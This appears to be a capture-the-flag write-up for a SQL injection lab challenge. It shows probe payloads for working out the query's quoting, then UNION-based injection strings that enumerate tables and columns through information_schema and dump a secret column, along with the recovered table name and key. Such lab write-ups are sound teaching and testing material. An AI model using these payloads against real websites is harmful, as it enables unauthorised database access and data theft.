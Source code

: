 ## Challenge - 3

This challenge is similar to the previous two challenges and we have 14 tries to dump the secret key

### Initial Analysis

Here also we have to find  how the developer has given the query so we try giving id the values

```sql
0' or 1=1 --+

0" or 1=1 --+

0) or 1=1 --+
```

which doesn't give any output and id=

```sql
0') or 1=1 --+
```

gives an output which means the query should be like

```sql
select login_name,password from table_name where id=('input') 
```

### Solving

Now we can find table name like in the previous problem using

```sql
0') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='CHALLENGES'; --+
```

which gives us the table name :

**g3xh31tkpv**

Now we can find the columns in the table using 

```sql
0') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='g3xh31tkpv' and table_schema='CHALLENGES'; --+
```

we get 4 column names:

**id,sessid,secret_WP9T,tryy**

The secret key can be in any of these columns but we can always go for the most suspicious one and print the secret key using:

```sql
0') union select 1,2,group_concat(secret_WP9T) from g3xh31tkpv; --+
```

We get the secret key:

**fC3cDPza7ljnkhuhIHAlDw6o**

